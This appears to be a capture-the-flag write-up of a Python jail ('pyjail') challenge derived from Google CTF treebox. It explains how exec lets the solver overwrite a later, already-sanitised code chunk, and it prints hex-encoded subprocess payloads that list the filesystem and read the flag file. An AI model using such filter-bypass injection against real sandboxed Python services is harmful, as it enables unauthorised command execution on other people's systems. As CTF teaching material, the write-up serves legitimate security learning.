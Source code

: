 ```yaml
---
layout: post
date: 2023-09-25 12:00:00 +0200
title: "Not a last minute Pyjail"
excerpt_separator: <!--more-->
---
```

In this challenge we need to solve a pyjail that looks very similar to another pyjail.
<!--more-->
From the very beginning, this pyjail hints that it was ripped from another CTF.

## Mind games

The challenge description comes with the notice:

> This jail was totally not made last minute (based on gctf treebox)

The title also hints that this was quickly put together.

Opening the file, we notice a copyright notice from Google in 2022.

```py
# Copyright 2022 Google LLC
...
# Flag is in a file called "flag" in cwd.
```

The rest of the code looks extremely similar except for 3 major differences:
- The AST is filtered on a whitelist rather than a blacklist
- The characters `@.()#` are banned
- The code is run in chunks delimited by `--CHUNK`

As you probably guessed by now, this challenge has nothing to do with previous challenges.

## The exploit

When we run `exec` we get access to the current context, so we could modify the code contained in the second chunk after it got sanitized.

## The code

We want to encode all our characters as hex to bypass the filters.

let's inject
```py
import subprocess;
p = subprocess.Popen("ls /", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x6c\x73\x20\x2f\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

We find that the flag is located in `/flag.poyvHVzi1MUB72nR0gly.txt`

Let's modify our injected code cat

```py
import subprocess;
p = subprocess.Popen("cat /flag.poyvHVzi1MUB72nR0gly.txt", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x2e\x70\x6f\x79\x76\x48\x56\x7a\x69\x31\x4d\x55\x42\x37\x32\x6e\x52\x30\x67\x6c\x79\x2e\x74\x78\x74\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

## Flag
`vsctf{PYTHONNNNNN_SO_FUNNN}`